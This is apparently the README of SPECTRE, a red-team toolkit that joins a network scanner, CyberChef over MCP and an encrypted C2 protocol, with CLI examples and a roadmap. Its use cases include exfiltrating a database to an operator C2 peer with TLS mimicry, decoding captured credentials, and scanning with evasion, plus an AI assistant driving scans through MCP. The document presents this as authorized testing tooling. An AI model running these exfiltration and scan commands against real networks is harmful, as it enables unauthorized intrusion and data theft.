

# SPECTRE

**S**ecurity **P**latform for **E**ncrypted **C**omms, **T**esting, **E**numeration, **R**econ

A unified offensive security toolkit combining wire-speed secure communications, high-performance network reconnaissance, and advanced data analysis into a cohesive operational platform with four interaction modes: CLI, TUI, GUI, and MCP Server.

<!-- markdownlint-disable no-inline-html -->
<p align="center">
  
</p>

<p align="center">
  <a href="https://github.com/doublegate/SPECTRE"></a>
  <a href="https://github.com/doublegate/SPECTRE/fork"></a>
  <a href="https://github.com/doublegate/SPECTRE/actions/workflows/ci.yml"></a>
  <a href="https://github.com/doublegate/SPECTRE/releases"></a>
  <a href="https://www.rust-lang.org/"></a>
  <a href="https://nodejs.org/"></a>
  <a href="LICENSE"></a>
</p>
<!-- markdownlint-enable no-inline-html -->

---

## Overview

**SPECTRE** is an integrated security operations platform that orchestrates three battle-tested tools into a unified workflow for authorized security testing, red team operations, and threat research.

Each component is a standalone, production-ready project — SPECTRE provides the orchestration layer that binds them into a cohesive operational platform, delivering capabilities far greater than the sum of its parts:

| Component                                                            | Role                    | Capability                                                         | Version | Tests |
| -------------------------------------------------------------------- | ----------------------- | ------------------------------------------------------------------ | ------- | ----- |
| [**WRAITH-Protocol**](https://github.com/doublegate/WRAITH-Protocol) | **Encrypted Comms**     | Wire-speed secure file transfer, E2EE messaging, C2 infrastructure | v2.3.7  | 2,957 |
| [**ProRT-IP**](https://github.com/doublegate/ProRT-IP)               | **Enumeration & Recon** | 10M+ pps network scanning, service detection, OS fingerprinting    | v1.0.0  | 2,557 |
| [**CyberChef-MCP**](https://github.com/doublegate/CyberChef-MCP)     | **Testing & Analysis**  | 463 data manipulation operations, AI-powered via MCP               | v1.8.0  | 563   |

### Why SPECTRE?

Modern offensive security requires seamless tool integration. SPECTRE eliminates context-switching:

- **Discover** targets with ProRT-IP's high-speed reconnaissance (10M+ pps)
- **Analyze** captured data with CyberChef's 463 operations via AI-assisted workflows
- **Exfiltrate** securely via WRAITH's traffic-obfuscated channels (10+ Gbps)
- **Coordinate** red team operations through unified orchestration with campaign management
- **Automate** complex workflows with inter-component data pipelines

### Platform Metrics

| Metric                 | Value                                                                   |
| ---------------------- | ----------------------------------------------------------------------- |
| **Combined Tests**     | 6,942 (SPECTRE: 865 + WRAITH: 2,957 + ProRT-IP: 2,557 + CyberChef: 563) |
| **SPECTRE Codebase**   | ~31,000 lines Rust (119 source files across 5 crates)                     |
| **Component Code**     | ~180,000 (Rust) + ~40,000 (TypeScript/JavaScript)                         |
| **Languages**          | Rust 2024, TypeScript, JavaScript                                         |
| **Network Throughput** | 10+ Gbps (WRAITH), 10M+ pps (ProRT-IP)                                   |
| **Data Operations**    | 463 via CyberChef MCP                                                     |
| **Interface Modes**    | CLI (implemented), TUI (implemented), GUI, MCP Server                     |
| **Platforms**          | Linux, Windows, macOS, Docker                                             |

---

## Interface Modes

SPECTRE provides four distinct interaction methods to suit different operational contexts:

```text
┌────────────────────────────────────────────────────────────────────┐
│                        SPECTRE INTERFACE MODES                     │
├────────────────────────────────────────────────────────────────────┤
│                                                                    │
│   ┌──────────┐  ┌──────────┐  ┌──────────┐  ┌──────────────────┐   │
│   │   CLI    │  │   TUI    │  │   GUI    │  │    MCP Server    │   │
│   │ spectre  │  │ spectre  │  │ spectre  │  │ spectre-mcp      │   │
│   │   cmd    │  │    tui   │  │   --gui  │  │                  │   │
│   ├──────────┤  ├──────────┤  ├──────────┤  ├──────────────────┤   │
│   │ Scripts  │  │ Real-    │  │ Visual   │  │ AI-Assisted      │   │
│   │ Pipelines│  │ time     │  │ Campaign │  │ Natural Language │   │
│   │ Automated│  │ Dashboard│  │ Planning │  │ Claude/Cursor    │   │
│   └────┬─────┘  └────┬─────┘  └────┬─────┘  └────────┬─────────┘   │
│        │             │             │                 │             │
│        └─────────────┴─────────────┴─────────────────┘             │
│                              │                                     │
│                    ┌─────────▼─────────┐                           │
│                    │  SPECTRE Core     │                           │
│                    │  Orchestrator     │                           │
│                    └─────────┬─────────┘                           │
│                              │                                     │
│        ┌─────────────────────┼─────────────────────┐               │
│        ▼                     ▼                     ▼               │
│   ┌─────────┐          ┌─────────┐          ┌─────────┐            │
│   │ProRT-IP │          │CyberChef│          │ WRAITH  │            │
│   │ WarScan │          │   MCP   │          │Protocol │            │
│   └─────────┘          └─────────┘          └─────────┘            │
│                                                                    │
└────────────────────────────────────────────────────────────────────┘
```

### CLI — Command Line Interface

**Primary interface for scripting, automation, and CI/CD integration.**

```bash
# Unified command interface with subcommand routing
spectre scan -sS -p 1-1000 192.168.1.0/24        # ProRT-IP scanning
spectre chef "From_Base64,Gunzip" --input data   # CyberChef analysis
spectre send file.db --peer c2-server --encrypt  # WRAITH transfer
spectre campaign run red-team-op.yaml            # Full workflow

# Pipeline support for complex operations
spectre scan --output json 10.0.0.0/24 | \
  spectre chef "Extract_URLs,Defang_URL" | \
  spectre report --format markdown
```

**Features:**

- Nmap-compatible syntax for ProRT-IP operations
- Recipe-based CyberChef workflows
- Pipeline composition with JSON/Protocol Buffers
- Campaign definition via YAML
- Shell completion (bash, zsh, fish, PowerShell)

### TUI — Terminal User Interface

**Real-time operational dashboard leveraging ProRT-IP's 60 FPS TUI framework.**

```bash
spectre tui                         # Launch full TUI dashboard (alias: spectre ui)
spectre scan --tui 192.168.1.0/24   # Scan with live visualization
```

**Dashboard Panels:**

```bash
┌─────────────────────────────────────────────────────────────────────────────┐
│ SPECTRE v0.1.0 - Operation BLACKOUT               [Campaign: red-team-01]   │
├────────────────────────────────┬────────────────────────────────────────────┤
│ RECON STATUS                   │ ANALYSIS PIPELINE                          │
│ ┌────────────────────────────┐ │ ┌────────────────────────────────────────┐ │
│ │ Targets:  254/254 ████████ │ │ │ Input:   banners.txt (2.4 MB)          │ │
│ │ Ports:    1000   ████░░░░░ │ │ │ Recipe:  [Base64→Gunzip→JSON]          │ │
│ │ Services: 47 identified    │ │ │ Status:  Processing... 67%             │ │
│ │ Rate:     45,231 pps       │ │ │ Output:  decoded_payloads.json         │ │
│ └────────────────────────────┘ │ └────────────────────────────────────────┘ │
├────────────────────────────────┼────────────────────────────────────────────┤
│ COMMS STATUS                   │ CAMPAIGN TIMELINE                          │
│ ┌────────────────────────────┐ │ ┌────────────────────────────────────────┐ │
│ │ Channel:  TLS-mimicry      │ │ │ 14:00 ▶ Recon started                 │ │
│ │ Peer:     c2.operator.net  │ │ │ 14:15   47 services discovered         │ │
│ │ Latency:  23ms             │ │ │ 14:22   Analysis complete              │ │
│ │ Tx/Rx:    1.2GB / 45MB     │ │ │ 14:30   Exfil initiated                │ │
│ └────────────────────────────┘ │ └────────────────────────────────────────┘ │
├─────────────────────────────────────────────────────────────────────────────┤
│ [F1] Help  [F2] Scan  [F3] Analyze  [F4] Comms  [F5] Report  [q] Quit       │
└─────────────────────────────────────────────────────────────────────────────┘
```

**Features:**

- 60 FPS async rendering with crossterm backend and panic-safe terminal restoration
- 4-panel layout (Recon, Analysis, Comms, Campaign) with 4 layout modes (Grid/Wide/Tall/Focus)
- Real-time scan progress with rate metrics, ETA, scrollable results browser
- Vim-style keyboard navigation (j/k/h/l, g/G, Ctrl+d/u) plus F-key panel switching
- Command mode (`:`) with 11 commands, history, tab completion
- 5 built-in themes (dark, light, tactical, matrix, hacker) with runtime switching
- Help overlay (`?`/`F1`) with grouped keyboard shortcut reference

### GUI — Graphical User Interface

**Web-based visual interface for campaign planning and collaboration.**

```bash
spectre --gui                    # Launch GUI server (default: localhost:8080)
spectre --gui --bind 0.0.0.0:443 # Expose for team access (with TLS)
```

**Capabilities:**

- Campaign planning workspace with drag-and-drop workflow builder
- Network topology visualization from scan results
- Real-time collaboration for multi-operator teams
- Visual recipe editor for CyberChef operations
- Report generation with exportable formats (PDF, HTML, JSON)

**Technology Stack:**

- Tauri 2.0 framework (same as WRAITH clients)
- React/TypeScript frontend
- WebSocket real-time updates
- Native system tray integration

### MCP Server — AI-Assisted Operations

**Model Context Protocol server exposing SPECTRE capabilities to AI assistants.**

```bash
spectre-mcp serve                # Start MCP server (stdio transport)
```

**Claude/Cursor Integration:**

```json
{
    "mcpServers": {
        "spectre": {
            "command": "spectre-mcp",
            "args": ["serve"]
        }
    }
}
```

**MCP Tools Exposed:**

| Tool Category          | Operations     | Description                                   |
| ---------------------- | -------------- | --------------------------------------------- |
| `spectre_scan_*`       | 8 scan types   | SYN, Connect, FIN, NULL, Xmas, ACK, Idle, UDP |
| `spectre_detect_*`     | Service/OS     | Service detection, OS fingerprinting          |
| `spectre_chef_*`       | 463 operations | All CyberChef operations as individual tools  |
| `spectre_send/receive` | File transfer  | Encrypted P2P file operations                 |
| `spectre_campaign_*`   | Orchestration  | Campaign create/run/status/abort              |
| `spectre_recipe_*`     | 10 tools       | Recipe CRUD, export, import, test             |

**AI Workflow Example:**

```
User: "Scan 192.168.1.0/24 for web servers, analyze their banners,
       and extract any base64-encoded data"

Claude: I'll create a workflow to accomplish this:
        1. spectre_scan_syn(target="192.168.1.0/24", ports="80,443,8080")
        2. spectre_detect_service(hosts=<scan_results>)
        3. spectre_chef_from_base64(input=<extracted_base64>)
```

---

## Architecture

### System Design

SPECTRE follows a modular microservices architecture where each component operates independently but communicates through well-defined interfaces:

```text
┌───────────────────────────────────────────────────────────────────────────┐
│                           SPECTRE PLATFORM                                │
├───────────────────────────────────────────────────────────────────────────┤
│  INTERFACE LAYER                                                          │
│  ┌──────────┐  ┌──────────┐  ┌──────────┐  ┌──────────────────┐           │
│  │   CLI    │  │   TUI    │  │   GUI    │  │    MCP Server    │           │
│  │  (clap)  │  │(ratatui) │  │ (Tauri)  │  │     (stdio)      │           │
│  └────┬─────┘  └────┬─────┘  └────┬─────┘  └────────┬─────────┘           │
│       └─────────────┴─────────────┴─────────────────┘                     │
│                              │                                            │
├──────────────────────────────┼────────────────────────────────────────────┤
│  ORCHESTRATION LAYER         ▼                                            │
│  ┌─────────────────────────────────────────────────────────────────────┐  │
│  │                      SPECTRE CORE                                   │  │
│  │  ┌─────────────┐  ┌─────────────┐  ┌─────────────┐  ┌────────────┐  │  │
│  │  │  Campaign   │  │    Data     │  │   Workflow  │  │   Config   │  │  │
│  │  │  Manager    │  │   Router    │  │   Engine    │  │   Store    │  │  │
│  │  └─────────────┘  └─────────────┘  └─────────────┘  └────────────┘  │  │
│  └─────────────────────────────────────────────────────────────────────┘  │
│                              │                                            │
├──────────────────────────────┼────────────────────────────────────────────┤
│  COMPONENT LAYER             │                                            │
│       ┌──────────────────────┼──────────────────────┐                     │
│       ▼                      ▼                      ▼                     │
│  ┌─────────────────┐  ┌─────────────────┐  ┌─────────────────┐            │
│  │    ProRT-IP     │  │  CyberChef-MCP  │  │ WRAITH-Protocol │            │
│  │    WarScan      │  │                 │  │                 │            │
│  ├─────────────────┤  ├─────────────────┤  ├─────────────────┤            │
│  │ • SYN/Connect   │  │ • 463 Ops       │  │ • E2EE Xfer     │            │
│  │ • FIN/NULL/Xmas │  │ • Encoding      │  │ • Double Ratchet│            │
│  │ • Idle/Zombie   │  │ • Crypto        │  │ • Traffic Obfsc │            │
│  │ • UDP w/Probes  │  │ • Forensics     │  │ • C2 Channel    │            │
│  │ • Svc Detection │  │ • Compression   │  │ • 12 Clients    │            │
│  │ • OS Fingerprnt │  │ • Recipe Mgmt   │  │ • RedOps        │            │
│  │ • Lua Plugins   │  │ • Batch Process │  │ • Post-Quantum  │            │
│  └─────────────────┘  └─────────────────┘  └─────────────────┘            │
│        Rust                  Node.js              Rust                    │
│     (lib + CLI)           (Docker MCP)        (lib + 12 apps)             │
│                                                                           │
└───────────────────────────────────────────────────────────────────────────┘
```

### Data Flow

```text
┌──────────────┐      ┌───────────────┐      ┌────────────────┐      ┌───────────────┐
│    Target    │────▶│   ProRT-IP    │────▶│   CyberChef    │────▶│     WRAITH    │
│   Network    │      │     Recon     │      │    Analysis    │      │   Exfil/C2    │
└──────────────┘      └───────┬───────┘      └───────┬────────┘      └───────┬───────┘
                             │                     │                       │
                             ▼                     ▼                       ▼
                        scan.json            decoded.txt           secure_channel
                        hosts.xml            decrypted.bin         encrypted_xfer
                        services.db          forensic.log          covert_comms
                        os_info.json         patterns.json         c2_traffic

┌─────────────────────────────────────────────────────────────────────────────────┐
│                           UNIFIED DATA MODEL                                    │
│  ┌─────────────┐  ┌─────────────┐  ┌─────────────┐  ┌─────────────────────────┐ │
│  │   Target    │  │   Finding   │  │  Artifact   │  │      Campaign           │ │
│  │  • IP/CIDR  │  │  • Port     │  │  • File     │  │  • State machine        │ │
│  │  • Hostname │  │  • Service  │  │  • Data     │  │  • Phase tracking       │ │
│  │  • OS info  │  │  • Vuln     │  │  • Evidence │  │  • Timeline             │ │
│  └─────────────┘  └─────────────┘  └─────────────┘  └─────────────────────────┘ │
└─────────────────────────────────────────────────────────────────────────────────┘
```

### Integration Layers

| Layer                   | Purpose                                          | Technology                       | Status          |
| ----------------------- | ------------------------------------------------ | -------------------------------- | --------------- |
| **CLI Orchestrator**    | Unified command interface (13 subcommands)       | Rust (clap 4)                    | **Implemented** |
| **Core Library**        | Config, scanning, comms, analysis, orchestration | Rust (tokio, serde, tracing)     | **Implemented** |
| **Target Management**   | Priority queue, scope enforcement, async DNS     | Rust (ipnetwork, tokio)          | **Implemented** |
| **Job Orchestration**   | State machine, concurrency control, events       | Rust (tokio, broadcast channels) | **Implemented** |
| **Results Aggregation** | Findings, JSON/XML/greppable output, stats       | Rust (serde, quick-xml)          | **Implemented** |
| **Data Pipeline**       | Composable stages, builder API, metrics          | Rust (async-trait, tokio)        | **Implemented** |
| **Campaign Management** | SQLite persistence, phases, artifacts            | Rust (rusqlite, sha2)            | **Implemented** |
| **Plugin System**       | Lua 5.4 sandbox, manifest, permissions, registry | Rust (mlua)                      | **Implemented** |
| **TUI Framework**       | Real-time dashboard (60 FPS, 4-panel, 5 themes)  | Rust (ratatui 0.30, crossterm)   | **Implemented** |
| **Scan Orchestration**  | Chaining, templates, scheduling, adaptive timing  | Rust (tokio, async-trait)        | **Implemented** |
| **Workflow Engine**     | YAML/JSON/TOML DSL, executor, variables, loops    | Rust (serde, tokio)              | **Implemented** |
| **Recipe Management**   | Storage, versioning, search, built-in library     | Rust (serde, toml)               | **Implemented** |
| **Report Generation**   | HTML and Markdown reports, executive summaries     | Rust (templates)                 | **Implemented** |
| **Export System**        | CSV, custom templates, incremental export         | Rust (serde)                     | **Implemented** |
| **Performance Layer**   | LRU cache, connection pool, metrics collection    | Rust (tokio)                     | **Implemented** |
| **GUI Application**     | Visual campaign planning                          | Tauri 2.0, React, TypeScript     | Planned         |
| **MCP Server**          | AI-assisted operations                            | Rust, MCP Protocol               | Planned         |

---

## Components

### WRAITH-Protocol — Encrypted Communications

**W**ire-speed **R**esilient **A**uthenticated **I**nvisible **T**ransfer **H**andler

The covert communications backbone of SPECTRE, providing military-grade secure file transfer with traffic analysis resistance.

| Capability       | Specification                                          |
| ---------------- | ------------------------------------------------------ |
| **Throughput**   | 10+ Gbps with AF_XDP kernel bypass                     |
| **Encryption**   | XChaCha20-Poly1305, Noise_XX, Double Ratchet           |
| **Obfuscation**  | Elligator2, protocol mimicry (TLS/WebSocket/DoH)       |
| **Applications** | 12 clients (Transfer, Chat, Sync, Vault, RedOps, etc.) |
| **Post-Quantum** | Hybrid X25519 + ML-KEM-768 KEX                         |
| **Tests**        | 2,957 passing                                          |
| **Code**         | ~141,000 lines Rust + ~36,600 lines TypeScript         |

**Key Features:**

- Perfect forward secrecy via Double Ratchet
- Traffic analysis resistance (Elligator2 key encoding)
- Protocol mimicry (TLS 1.3, WebSocket, DNS-over-HTTPS)
- Red team C2 infrastructure (WRAITH-RedOps) with 97.5% MITRE ATT&CK coverage
- 12 production clients including mobile (Android/iOS)

**SPECTRE Integration Points:**

- `wraith-core` library for encrypted transport
- `wraith-ffi` for FFI bindings
- Campaign coordination via WRAITH-RedOps team server

**Repository:** [github.com/doublegate/WRAITH-Protocol](https://github.com/doublegate/WRAITH-Protocol)

---

### ProRT-IP WarScan — Enumeration & Reconnaissance

High-performance network scanner combining Masscan/ZMap speed with Nmap detection depth.

| Capability     | Specification                                               |
| -------------- | ----------------------------------------------------------- |
| **Throughput** | 10M+ packets/second (stateless), 72K+ pps (verified)        |
| **Scan Types** | SYN, Connect, FIN, NULL, Xmas, ACK, Idle, UDP               |
| **Detection**  | Service detection (85-90%), OS fingerprinting (2,600+ sigs) |
| **Evasion**    | Fragmentation, TTL, decoys, timing templates (T0-T5)        |
| **IPv6**       | Full dual-stack support across all scan types               |
| **TUI**        | 60 FPS production dashboard, 11 widgets                     |
| **Tests**      | 2,557 passing, 51.40% coverage                              |

**Key Features:**

- Nmap-compatible CLI syntax (`-sS`, `-sV`, `-O`, `-A`)
- Lua 5.4 plugin system for custom detection
- PCAPNG packet capture
- O(N) connection tracking (50-1000x speedup)
- NUMA-optimized for multi-socket systems

**SPECTRE Integration Points:**

- TUI framework reuse for SPECTRE dashboard
- Scan result JSON/XML output to data pipeline
- Plugin system extensible for SPECTRE workflows

**Repository:** [github.com/doublegate/ProRT-IP](https://github.com/doublegate/ProRT-IP)

---

### CyberChef-MCP — Testing & Analysis

MCP server exposing CyberChef's 463 operations as AI-callable tools for data manipulation, cryptanalysis, and forensic analysis.

| Capability           | Specification                                 |
| -------------------- | --------------------------------------------- |
| **Operations**       | 463 data manipulation tools                   |
| **Interface**        | Model Context Protocol (MCP), stdio transport |
| **Categories**       | Encoding, encryption, compression, forensics  |
| **Deployment**       | Docker (Chainguard distroless, ~90MB)         |
| **Recipe Mgmt**      | 10 tools for workflow save/reuse              |
| **Batch Processing** | Parallel execution up to 100 operations       |
| **Tests**            | 563 passing, 74.97% coverage                  |

**Key Features:**

- AI-native via MCP (works with Claude, Cursor, etc.)
- Recipe management with CRUD, import/export (JSON/YAML/URL)
- Batch processing (parallel/sequential execution)
- Zero-CVE Chainguard base image
- SLSA Build Level 3 provenance

**MCP Tools:**

- `cyberchef_bake` — Execute full recipes
- `cyberchef_search` — Discover operations
- 463 individual operation tools (`cyberchef_to_base64`, `cyberchef_aes_decrypt`, etc.)
- 10 recipe management tools
- 5 advanced feature tools (batch, cache, telemetry, quota)

**SPECTRE Integration Points:**

- Direct MCP bridge for AI-assisted analysis
- Recipe library for common security workflows
- Batch processing for bulk data operations

**Repository:** [github.com/doublegate/CyberChef-MCP](https://github.com/doublegate/CyberChef-MCP)

---

## Use Cases

### Red Team Operations

```bash
# 1. Reconnaissance: Enumerate target network
spectre scan -sS -sV --top-ports 1000 10.0.0.0/24 -oJ recon.json

# 2. Analysis: Decode captured credentials
spectre chef --recipe "From_Base64,URL_Decode,Gunzip" --input creds.txt

# 3. Exfiltration: Secure data extraction via covert channel
spectre send --file sensitive.db --peer operator-c2 --mimicry tls

# 4. Campaign Orchestration: Full automated workflow
spectre campaign run red-team-op.yaml --target enterprise-network
```

### Threat Research

```bash
# Capture traffic, analyze protocols, identify patterns
spectre scan --capture pcap -p 443 10.0.0.0/24 | \
  spectre chef "Extract_URLs,Defang_URL,Unique" | \
  spectre report --format json --output indicators.json

# TUI mode for live analysis
spectre tui
```

### Security Auditing

```bash
# Full network assessment with automated analysis
spectre audit \
  --targets targets.txt \
  --scan-type comprehensive \
  --analyze-banners \
  --output-dir ./audit-results \
  --report-format pdf
```

### AI-Assisted Operations

```
# In Claude Code or Cursor with SPECTRE MCP enabled:

User: "Find all web servers on 192.168.1.0/24, extract TLS certificates,
       and identify any with expired or self-signed certs"

Claude: I'll execute this multi-step workflow:
        1. spectre_scan_syn(target="192.168.1.0/24", ports="443,8443")
        2. spectre_detect_tls_cert(hosts=<scan_results>)
        3. spectre_chef_parse_x509(input=<certificates>)
        4. Filter and report findings...
```

---

## Quick Start

### Prerequisites

- **Rust 1.88+** (for WRAITH, ProRT-IP, SPECTRE)
- **Node.js 22+** (for CyberChef-MCP)
- **Docker** (recommended for CyberChef-MCP deployment)
- **Linux kernel 6.2+** (recommended for AF_XDP/io_uring performance)
- **libpcap** (Linux/macOS) or **Npcap** (Windows) for raw packet access

### Installation

**Clone SPECTRE and submodules:**

```bash
git clone --recursive https://github.com/doublegate/SPECTRE.git
cd SPECTRE
```

**Build all Rust components:**

```bash
# Build SPECTRE CLI and integrated components
cargo build --release --workspace

# Grant network capabilities (instead of root)
sudo setcap cap_net_raw,cap_net_admin=eip target/release/spectre
```

**Setup CyberChef-MCP:**

```bash
# Pull pre-built container (recommended)
docker pull doublegate/cyberchef-mcp:latest

# Or build from source
cd components/cyberchef-mcp
docker build -f Dockerfile.mcp -t cyberchef-mcp .
```

**Verify installation:**

```bash
spectre --version
spectre status        # Check all component health
spectre self-test     # Run integration tests
```

### Basic Usage

```bash
# CLI: Quick port scan
spectre scan -sS -p 80,443,8080 192.168.1.0/24

# CLI: Analyze data with CyberChef
spectre chef "From_Base64" --input encoded.txt

# CLI: Secure file transfer
spectre send document.pdf --peer <peer-id> --encrypt

# TUI: Launch dashboard
spectre tui

# GUI: Launch web interface
spectre --gui

# MCP: Start server for AI integration
spectre-mcp serve
```

---

## Development Roadmap

### Release Codenames

SPECTRE releases follow an operational codename convention:

| Version | Codename                | Focus                                             | Interface Milestone |
| ------- | ----------------------- | ------------------------------------------------- | ------------------- |
| v0.1.0  | **Operation BLACKOUT**  | Foundation — CLI skeleton, component integration  | CLI MVP             |
| v0.2.0  | **Operation NIGHTFALL** | Data pipeline, scan-to-analysis automation        | CLI + Data Pipeline |
| v0.3.0  | **Operation PHANTOM**   | Campaign orchestration, multi-target coordination | TUI MVP             |
| v0.4.0  | **Operation SPECTER**   | Advanced features, workflows, reporting           | Advanced Engine     |
| v0.5.0  | **Operation SHADOW**    | Visual campaign planning, collaboration           | GUI MVP             |
| v1.0.0  | **Operation GENESIS**   | Production release — full platform capability     | All 4 Interfaces    |

### Phase 1: Foundation — Operation BLACKOUT (Complete)

- [x] SPECTRE CLI skeleton with subcommand routing (13 commands, Nmap-compatible flags)
- [x] Component version detection and health checks (`spectre status`)
- [x] Unified configuration management (TOML with file discovery and env var support)
- [x] Structured logging with tracing (RUST_LOG, file output, JSON format)
- [x] ProRT-IP scanning interface (Scanner trait, port/target parsing, 8 scan types)
- [x] WRAITH comms interface (identity management, peer management, send/receive)
- [x] CyberChef MCP bridge (Docker container management, recipe execution)
- [x] Shell completion generation (bash, zsh, fish, PowerShell)
- [x] 86 unit tests passing, zero clippy warnings

### Phase 2: Core Orchestration — Operation NIGHTFALL (Complete)

- [x] Target management with priority queue, scope enforcement, CIDR expansion, async DNS resolution
- [x] Job orchestration with state machine (Created->Queued->Running->Paused->Complete/Failed/Cancelled), concurrency control, event broadcasting
- [x] Results aggregation with Finding model, JSON/XML/greppable output, host/service grouping, statistics
- [x] Data pipeline with composable stages (Scan->Analysis->Filter->Output), builder API, execution metrics
- [x] Campaign management with SQLite persistence, phase state machine, artifact storage with SHA-256 hashing
- [x] Lua 5.4 plugin system with sandboxed execution, manifest-driven loading, permission model, resource limits
- [x] 3 new CLI commands: `campaign` (7 subcommands), `pipeline` (3 subcommands), `plugin` (3 subcommands)
- [x] 270 unit tests passing, zero clippy warnings

### Phase 3: TUI Dashboard — Operation PHANTOM (Complete)

- [x] TUI framework with async event loop, 60 FPS rendering, panic-safe terminal restoration
- [x] 4-panel layout (Recon, Analysis, Comms, Campaign) with Grid/Wide/Tall/Focus modes
- [x] Real-time scan display with progress bars, rate metrics, ETA calculation
- [x] Results browser with scrollable host/port tables, filtering, and sorting
- [x] Command input system with 11 commands, history navigation, tab completion
- [x] Vim-style keyboard shortcuts with F-key panel switching, help overlay
- [x] 5 built-in themes (dark, light, tactical, matrix, hacker) with runtime switching
- [x] 235 unit tests passing, zero clippy warnings

### Phase 4: Advanced Features — Operation SPECTER (Complete)

- [x] Advanced scan orchestration: chaining, conditional execution, templates, scheduling, profiles, adaptive timing, checkpoint/resume
- [x] Workflow automation: YAML/JSON/TOML DSL, parser, async executor with variables, conditionals, loops, retry logic
- [x] Recipe management: file-based storage, import/export, versioning, search, validation, built-in library
- [x] Report generation: HTML and Markdown generators, executive summaries, risk scoring, severity breakdown
- [x] Export formats: CSV exporter (results/hosts/findings), custom template engine, incremental export tracking
- [x] Performance optimization: LRU cache, connection pool with async mutex, performance metrics (timing + counters)
- [x] Advanced plugin system: registry with dependency resolution, event hooks (10 lifecycle events), template scaffolding (5 types)
- [x] 45 integration tests across 6 test suites, 351 new unit tests

### Phase 5: Visual Interface — Operation SHADOW

- [ ] Tauri 2.0 GUI application
- [ ] Campaign planning workspace
- [ ] Network topology visualization
- [ ] Multi-operator collaboration
- [ ] Visual workflow builder

### Future Enhancements

- [ ] Automated vulnerability correlation
- [ ] Integration with external threat intel feeds
- [ ] Kubernetes deployment (Helm chart)
- [ ] Distributed scanning coordinator

---

## Project Structure

```text
SPECTRE/
├── Cargo.toml              # Workspace manifest
├── Cargo.lock              # Dependency lock file
├── README.md               # This file
├── CHANGELOG.md            # Version history
├── CLAUDE.md               # AI assistant guidance
├── CONTRIBUTING.md         # Contribution guidelines
├── SECURITY.md             # Security policy
├── LICENSE                 # License file
├── rustfmt.toml            # Rust formatting config
├── clippy.toml             # Rust linting config
├── .editorconfig           # Editor standards
│
├── crates/
│   ├── spectre-cli/        # Unified CLI orchestrator (18 files, 44 tests)
│   │   ├── Cargo.toml
│   │   └── src/
│   │       ├── main.rs         # Entry point, CLI parsing
│   │       ├── commands/       # 13 subcommand implementations
│   │       │   ├── scan.rs         # Network scanning (ProRT-IP)
│   │       │   ├── chef.rs         # Data analysis (CyberChef-MCP)
│   │       │   ├── send.rs         # Secure send (WRAITH)
│   │       │   ├── receive.rs      # Secure receive (WRAITH)
│   │       │   ├── identity.rs     # Identity management
│   │       │   ├── peer.rs         # Peer management
│   │       │   ├── status.rs       # Component health checks
│   │       │   ├── config.rs       # Configuration management
│   │       │   ├── completions.rs  # Shell completion generation
│   │       │   ├── campaign.rs     # Campaign management (7 subcommands)
│   │       │   ├── pipeline.rs     # Data pipeline execution (3 subcommands)
│   │       │   ├── plugin.rs       # Plugin management (3 subcommands)
│   │       │   └── tui.rs          # TUI dashboard launcher
│   │       └── output/         # Output formatting
│   │           ├── table.rs        # Table output (comfy-table)
│   │           └── json.rs         # JSON output (serde_json)
│   ├── spectre-core/       # Core orchestration library (81 files, 530 unit + 45 integration tests)
│   │   ├── Cargo.toml
│   │   ├── src/
│   │   │   ├── lib.rs          # Library root (18 public modules)
│   │   │   ├── error.rs        # Error types (SpectreError, 20+ variants)
│   │   │   ├── logging.rs      # Tracing setup
│   │   │   ├── config/         # Configuration system
│   │   │   ├── scan/           # Scanning interface (8 scan types)
│   │   │   ├── chef/           # CyberChef integration (Docker MCP)
│   │   │   ├── comms/          # WRAITH integration (identity, peers)
│   │   │   ├── target/         # Target management (priority queue, scope)
│   │   │   ├── job/            # Job orchestration (state machine, events)
│   │   │   ├── results/        # Results aggregation (JSON/XML/grep output)
│   │   │   ├── pipeline/       # Data pipeline (composable stages)
│   │   │   ├── campaign/       # Campaign management (SQLite persistence)
│   │   │   ├── plugin/         # Plugin system (Lua sandbox, registry, hooks, templates)
│   │   │   │   ├── mod.rs          # Plugin loading, discovery
